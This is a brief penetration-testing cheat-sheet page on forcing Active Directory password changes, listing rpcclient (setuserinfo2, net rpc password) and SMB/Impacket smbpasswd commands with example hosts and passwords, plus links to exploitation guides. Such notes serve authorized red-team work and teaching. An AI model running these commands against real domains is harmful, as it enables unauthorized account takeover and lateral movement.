 # Force Change Password

### rpcclient

```
setuserinfo2 username 23 'P@ssw0rd123!'
net rpc password [pwd4userUwant2change] -U [userWithPwdChangePerms] -S 192.168.80.10
```

{% embed url="https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html" %}

{% embed url="https://room362.com/post/2017/reset-ad-user-password-with-linux/" %}

### smb

```
smbpasswd -U user -r domain.local
impacket-smbpasswd user:oldPassword@domain.local -newpass P@ssw0rd123
```
